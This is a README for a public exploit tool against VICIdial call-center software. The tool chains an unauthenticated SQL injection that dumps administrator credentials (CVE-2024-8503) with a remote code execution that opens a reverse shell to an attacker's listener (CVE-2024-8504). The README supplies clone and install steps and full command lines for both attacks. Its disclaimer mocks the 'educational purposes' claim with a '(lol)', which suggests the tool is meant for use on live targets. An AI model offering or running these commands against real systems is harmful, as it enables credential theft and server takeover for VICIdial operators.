

# ⚡️ Exploit for CVE-2024-8504 & CVE-2024-8503: SQLi and RCE ⚡️


## 🚨 Overview

This repository contains a combined exploit for two critical vulnerabilities discovered in **[VICIdial](https://vicidial.com)** by **[KoreLogic](https://korelogic.com)**:
- **CVE-2024-8503**: Unauthenticated SQL Injection (SQLi)
- **CVE-2024-8504**: Authenticated Remote Code Execution (RCE)

These vulnerabilities allow an attacker to retrieve administrative credentials through SQLi and ultimately execute arbitrary code on the target server via an RCE attack.

### 🛑 Advisory:

- **Vulnerability Type**: SQL Injection (CVE-2024-8503) and RCE (CVE-2024-8504)
- **Affected Software**: VICIdial
- **Severity**: Critical
- **CVE IDs**: 
  - **CVE-2024-8503** (SQLi)
  - **CVE-2024-8504** (RCE)

### 🔗 Vulnerability Advisories:
- [CVE-2024-8503 - SQLi Advisory](https://korelogic.com/Resources/Advisories/KL-001-2024-011.txt)
- [CVE-2024-8504 - RCE Advisory](https://korelogic.com/Resources/Advisories/KL-001-2024-012.txt)

## ⚙️ Features

This exploit tool allows you to either:
1. **Retrieve administrator credentials via SQLi** (CVE-2024-8503)
2. **Achieve RCE via poisoned recording files** (CVE-2024-8504)

The tool is based on KoreLogic’s original research, with enhancements made to:
- Separate the **SQLi** and **RCE** functionalities for more flexibility.
- Improve the **user experience** by simplifying execution and error handling.
- Provide a cleaner and more **aesthetic output** using `rich_click`.

## 📜 Requirements

To use this exploit, you need:
- Python 3.10+
- A **server** where you can open TWO ports 
- A target server running a vulnerable **VICIdial** instance
- Dependencies installed via `requirements.txt`

## ⚙️ Installation

1. Clone the repository:

```bash
git clone https://github.com/Chocapikk/CVE-2024-8504
cd CVE-2024-8504
```

2. Install the dependencies:

```bash
pip install -r requirements.txt
```

## 🛠️ Usage

### SQLi Mode (Retrieve Admin Credentials)

To perform only the **SQL Injection** attack and retrieve the administrative credentials, use the following command:

```bash
python exploit.py -u https://example.org
```

### RCE Mode (Remote Code Execution)

Once you have the administrator credentials, or if you already know them, you can launch a full RCE attack by running the following command:

```bash
python exploit.py -b -u https://example.org \
            -wh <webserver IP> -wp <webserver port> \
            -lh <your IP> -lp <your listener port>  \
            -un <admin username> -pw <admin password>
```

The `-b` option binds the reverse shell to your listener IP and port. This command will start a **Netcat** listener on the specified port and wait for an incoming reverse shell.

> ⚠️ Replace `<webserver IP>` and `<webserver port>` with the values of your malicious webserver (where you execute the exploit) used to capture the reverse shell or inject payloads.

## 🌐 Usage Example with a server

It’s recommended to use a server where you can open ports to listen for reverse shells. Below are examples for both SQLi and RCE:

### Example for SQLi:

```bash
python exploit.py -u https://example.org
```

### Example for RCE:

```bash
python exploit.py -u https://example.org -wh <server IP> -wp 5000 -lh <server IP> -lp 1337 -un admin -pw password123 -b
```

## ✨ Improvements

- **Separation of vulnerabilities**: The tool clearly separates the execution of the **SQLi** and **RCE** functionalities, making it more flexible for different exploitation scenarios.
- **Cleaner output**: The output is more structured and easy to read, highlighting key steps and results.
- **Bug fixes**: Some bugs from the original exploit have been fixed to ensure smoother execution.

## 📄 Acknowledgements

This exploit is based on the original work by **[KoreLogic](https://korelogic.com)**, and full credit goes to them for the discovery and initial PoC:
- [CVE-2024-8503 - SQLi Advisory](https://korelogic.com/Resources/Advisories/KL-001-2024-011.txt)
- [CVE-2024-8504 - RCE Advisory](https://korelogic.com/Resources/Advisories/KL-001-2024-012.txt)

Special thanks to KoreLogic for the foundational work. This tool was adapted to improve ease of use, bug fixes, and better separation between the two vulnerabilities.

## 🛡️ Disclaimer

This tool is for **educational purposes** only (lol). Use of this exploit without explicit permission from the system owner is illegal. The author assumes no responsibility for the misuse of this tool. Scambaiters, you're welcome.